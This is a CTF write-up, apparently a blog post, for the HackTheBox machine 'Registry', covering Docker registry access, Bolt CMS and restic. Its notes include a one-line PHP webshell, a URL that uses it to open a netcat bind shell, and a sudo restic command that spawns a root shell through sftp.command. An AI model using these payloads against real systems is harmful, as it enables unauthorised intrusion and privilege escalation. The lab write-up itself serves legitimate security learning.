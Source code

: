 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/xgkrHQlfaKA/0.jpg
layout: post
media_subpath: /assets/posts/2020-04-04-registry-hackthebox
tags:
- bolt cms
- docker
- docker registry
- hackthebox
- linux
- restic
- sudo
title: Registry @ HackTheBox
---
```


Registry is a 40-point machine on HackTheBox that involves interacting with a docker registry to download a docker image and finding a password and ssh private key inside. For root we exploit a flaw in bolt cms to upload a webshell and then abuse a sudo entry that allows us to start restic backup as root.

{% youtube xgkrHQlfaKA %}

## Notes

/etc/docker/daemon.json:

```
{
  "insecure-registries" : ["docker.registry.htb:80"]
}
```

docker:

```
sudo systemctl restart docker
docker login docker.registry.htb:80
docker pull docker.registry.htb:80/bolt-image:latest
docker image ls
docker image inspect <image id>
```

bolt webshell:

```
<?php echo system($_REQUEST['xcmd']);?>
```

```
http://registry.htb/bolt/files/xct.php?xcmd=nc.traditional+-lp+2000+-e /bin/bash
```

restic docs:

[https://restic.readthedocs.io/en/latest/030\_preparing\_a\_new\_repo.html](https://restic.readthedocs.io/en/latest/030_preparing_a_new_repo.html)

restic exploit:

```
sudo /usr/bin/restic backup -r rest/ -r sftp:bolt@127.0.0.1:/var/tmp/rest -o sftp.command="nc.traditional -lp 2000 -e /bin/bash" /proc/version
```